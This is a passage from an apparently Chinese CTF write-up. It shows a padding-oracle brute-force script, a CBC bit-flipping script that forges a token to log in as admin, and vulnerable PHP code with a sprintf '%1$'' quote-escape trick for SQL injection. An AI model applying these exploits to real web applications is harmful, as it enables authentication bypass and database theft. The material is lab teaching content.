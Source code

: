 ```python
        ss=(15-j)*'\x00'+chr(i)+ok
        s=base64.b64encode(ss)
        header={"Cookie": "PHPSESSID=0t4h76nv16i4m61noh2gli2nd5; token="+s+";"}
        r2=r1.get(url,headers=header)
        #print r2.text
        if "Error" not in r2.text:
            #print (i^(j+1)),i,j
            flag=chr(i^(j+1))+flag
            id=chr((i^(j+1))^(ord(token[15-j])))+id
            idhex=hex((i^(j+1))^(ord(token[15-j])))+"-"+idhex
            print j,id
            print j,idhex
            break
```
其中token和cookie要修改成第一步登录成功后的token和cookie，最后能求出14位id和一位0x01，可以爆破最后一位

CBC字节翻转攻击脚本
```python
#!/usr/bin/python
#-*- coding: utf-8 -*-
#by:CodeMonster
import base64 as b64
import binascii
dic = open("passsss.txt","a")
for i in range(256):
    source_str = chr(i)+'EZKIhn1dPhWY2P'+'\x01'
    target_srt = 'admin' + 11 * '\x0b'
    token = 'cWMzdTJQMUxGSmJSRmt5Vw==' #你获得的初始IV的base64encode值
    token = list(b64.b64decode(token))
    for x in xrange(0,len(target_srt)):
        token[x] = chr(ord(token[x]) ^ ord(target_srt[x]) ^ ord(source_str[x]))
    sss=b64.b64encode(''.join(token))
    dic.write("".join(sss))
    dic.write("".join("\n"))
dic.close()
```
然后去burpsuite里爆破token就好，即可登录为管理员

## 0x02sql注入
这部分的核心代码主要是这几句
```php
  $id = mysql_real_escape_string($_GET['id']);
	if(isset($_GET['title'])){
		$title = mysql_real_escape_string($_GET['title']);
		$title = sprintf("AND title='%s'", $title);
	}else{
		$title = '';
	}
	$sql = sprintf("SELECT * FROM article WHERE id='%s' $title", $id);
	$result = mysql_query($sql,$con);
	$row = mysql_fetch_array($result);
	if(isset($row['title'])&&isset($row['content'])){
		echo "<h1>".$row['title']."</h1><br>".$row['content'];
		die();
	}else{
		die("This article does not exist.");
  }
```
看到用了sprintf格式化字符串，想到[省赛的注入题](https://www.codemonster.cn/2017/10/31/2017-3th-fjwlkjaqds-writeup/)
测试了一下`%1$'`可以成功逃逸单引号，构造盲注脚本如下，在web1.key的f14g字段找到flag
